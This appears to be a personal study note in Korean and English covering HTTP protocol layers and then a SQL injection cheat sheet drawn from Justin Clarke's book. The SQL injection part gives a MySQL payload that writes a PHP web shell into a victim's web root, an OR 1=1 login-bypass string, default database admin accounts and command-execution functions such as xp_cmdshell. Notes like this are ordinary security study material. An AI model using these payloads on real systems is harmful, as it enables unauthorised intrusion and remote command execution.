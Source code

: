 # HTTP

HTTP 는 Application 계층에서 이루어진다


| 계층명               | 기능                                 |
|-------------------|------------------------------------|
| 응용계층(Application) | 웹, 텔넷, ftp                         |
| 전송계층(Transfer)    | 두 호스트 간의 데이터 흐름 제공                 |
| 네트워크(Network)     | 송수신간 전송 단위인 **패킷** 이동 제어 및 최적 이동경로 |
| 링크계층              | 하드웨어 인터페이스 역활과 데이터 전송              |
| ...               | ...                                |

HTTP 특징
- Request 와 Response로 이루어짐
- Client의 요청으로 시작
- Stateless Protocol -> (cookie, session 등을 사용)

## SQL Injection

### Procedure
- Time delay check where input is run
- Try `'` for input and see the result.
    - Does error occur?
    - Where does error occur? (DB or )

### WebShell (MYSQL)
- With root auth : `UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/victim.com/cmd.php" --` 

### Basic Config
- Microsoft SQL Server : `sa`
- MySQL : `root` && `anonymous`
- Oracle : `SYS, SYSTEM, DBSNMP, OUTLN`

### Authority Empowerment
- `xp_cmdshell, OPENROWSET, LOAD_FILE, ActiveX, Java support`

### Inline Injection
- use ` 1' OR 1=1 OR 1=1` to by pass `id = input1 AND password = input2`;
 

#### Referenced
- `SQL injection` by `Justin Clarke`
